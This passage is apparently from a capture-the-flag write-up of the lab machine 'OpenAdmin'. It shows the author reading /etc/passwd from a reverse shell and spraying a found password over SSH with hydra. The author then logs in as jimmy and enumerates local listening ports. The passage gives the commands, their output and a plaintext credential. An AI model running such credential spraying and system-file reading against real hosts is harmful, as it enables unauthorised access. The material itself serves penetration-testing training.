 ```php
    'context_color' => '#D3DBFF',
  ),
);
?>
```
Now having found a password, we need a user to login with.

Checking out /etc/passwd for possible users to log in to:
```console
www-data@openadmin:/opt/ona/www/local/config$ cat /etc/passwd | grep "/bin/bash"
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```
Seems like we have 3 possible users (actually 2, because root is rather unlikely) we can try to authenticate with the found password.

## Privesc to jimmy
Of course we could try to su with our current reverse-shell, however Port 22 is open, so let's try SSH first. If this succeeds we get a much stabler shell and have some additional features like portforwarding or copying via scp.

```console
root@silence:~# cat users.txt
root
jimmy
joanna
root@silence:~# hydra -L users.txt -p 'n1nj4W4rri0R!' ssh://10.10.10.171
[DATA] attacking ssh://10.10.10.171:22/
[22][ssh] host: 10.10.10.171   login: jimmy   password: n1nj4W4rri0R!
1 of 1 target successfully completed, 1 valid password found
```
Using hydra we can quickly evaluate if any of the users on the system are allowed to login with the found password. Jimmy seems to be allowed to login via ssh with the password 'n1nj4W4rri0R!'.

```console
ssh jimmy@10.10.10.171
The authenticity of host '10.10.10.171 (10.10.10.171)' can't be established.
ECDSA key fingerprint is SHA256:loIRDdkV6Zb9r8OMF3jSDMW3MnV5lHgn4wIRq+vmBJY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.171' (ECDSA) to the list of known hosts.
jimmy@10.10.10.171's password: n1nj4W4rri0R!

Last login: Thu Jan  2 20:50:03 2020 from 10.10.14.3
jimmy@openadmin:~$
```

## Privesc to joanna
As there was no user.txt found in the home directory of jimmy, the next step is to escalate privileges to joanna.
### Enumerating ports
```console
jimmy@openadmin:~$ netstat -alnp | grep "LISTEN "
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
```
Checking out all the ports listening on localhost only, the port **52846** stands out in particular.
